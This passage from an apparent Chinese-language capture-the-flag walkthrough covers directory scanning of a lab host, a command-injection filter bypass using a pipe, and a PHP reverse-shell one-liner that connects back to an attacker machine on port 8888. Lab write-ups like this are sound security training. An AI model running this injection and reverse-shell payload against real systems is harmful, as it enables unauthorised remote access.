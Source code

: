 ![](https://image.3001.net/images/20210124/1611487521_600d59215e679dddc8139.png!small?1611487521581)

### 4. 网站信息搜集

首页

![](https://image.3001.net/images/20210124/1611487674_600d59ba60c3903041f0f.png!small)

二、漏洞探测
------

### 1. 目录扫描

```
dirb http://10.0.0.131/
```

![](https://image.3001.net/images/20210124/1611488305_600d5c31df79f617b1530.png!small?1611488306174)

访问

```
http://10.0.0.131/secret/
```

![](https://image.3001.net/images/20210124/1611488385_600d5c81b235652be2ce7.png!small?1611488385979)

漏洞来的太快就像龙卷风~ 命令执行漏洞

三、漏洞利用
------

### 1. 命令执行漏洞利用

前面 ftp 里面拿到的提示说有字符串的过滤，想办法绕过

经过尝试发现可以使用管道符进行绕过

```
whoami|ls
```

![](https://image.3001.net/images/20210125/1611504256_600d9a8030559301d9740.png!small?1611504256259)

### 2. php 反弹 shell

```
whoami|php -r '$sock=fsockopen("10.0.0.129",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

![](https://image.3001.net/images/20210125/1611504355_600d9ae37a2c0cc273981.png!small?1611504356043)

### 3. 信息搜集

在 / var/www/files 路径中发现 hacker.php
